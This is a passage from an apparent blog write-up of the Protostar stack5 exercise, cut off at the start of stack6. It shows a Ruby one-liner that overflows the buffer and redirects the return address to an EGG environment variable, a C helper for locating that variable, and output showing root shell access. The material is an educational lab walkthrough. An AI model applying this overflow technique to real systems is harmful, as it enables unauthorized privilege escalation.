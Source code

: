 user@protostar:~/fixenv$ ./r.sh getvar EGG
0xbfffff60  \x60\xff\xff\xbf  (EGG)

user@protostar:~/fixenv$ ruby -e 'print "A" * 76 + [0xbfffff60].pack("V")' | ./r.sh /opt/protostar/bin/stack5
user@protostar:~/fixenv$ 

user@protostar:~/fixenv$ (ruby -e 'print "A" * 76 + [0xbfffff60].pack("V")' ; cat) | ./r.sh /opt/protostar/bin/stack5

id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
{% endcodeblock %}

We do not need to use `r.sh` again - the EGG address could be easily calculated (albeit it's different, because `fixenv` clears our environment):

{% codeblock lang:c getenv.c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;

    if (argc < 3) {
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    } else {
        /* Get environment variable location */
        ptr = getenv(argv[1]); 
        /* Adjust for program name */
        ptr += (strlen(argv[0]) - strlen(argv[2])) * 2; 
        printf("%s will be at %p\n", argv[1], ptr);
    }
}
{% endcodeblock %}

{% codeblock %}
user@protostar:~/fixenv$ gcc getenv.c -o getenv

user@protostar:~/fixenv$ ./getenv EGG /opt/protostar/bin/stack5
EGG will be at 0xbffff9b0

user@protostar:~/fixenv$ (ruby -e 'print "A" * 76 + [0xbffff9b0].pack("V")' ; cat) | /opt/protostar/bin/stack5

id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
{% endcodeblock %}

## Protostar Stack6
{% codeblock lang:c stack6.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
